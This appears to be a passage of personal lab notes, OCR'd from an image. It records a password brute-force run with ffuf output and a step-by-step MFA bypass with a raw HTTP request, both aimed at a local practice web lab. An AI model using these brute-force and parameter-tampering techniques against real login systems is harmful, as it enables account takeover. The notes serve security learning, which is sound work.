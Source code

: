 ```Markdown
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-GPC: 1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Origin: http://localhost
 :: Header           : Connection: keep-alive
 :: Header           : DNT: 1
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

letmein                 [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 16ms]
:: Progress: [10000/10000] :: Job [1/1] :: 881 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```

## ==Attack MFA :==

```Markdown
# Steps 

## Goal: 
	- Target account: jeremy
	- Your credentials: jessamy:pasta

1. Sign in to jessamy:pasta account.
2. Then goto the MFA page copy the code.
3. Come back to the login page. 
		- jessamy
		- 'Enter the mfa code'
4. In the Burp Suite chnage the username to "jeremy".

" POST /labs/a0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
DNT: 1
Sec-GPC: 1
Priority: u=0, i

username2=jessamy&mfa=454097 "

## Change the username=jessamy to username=jeremey.
```
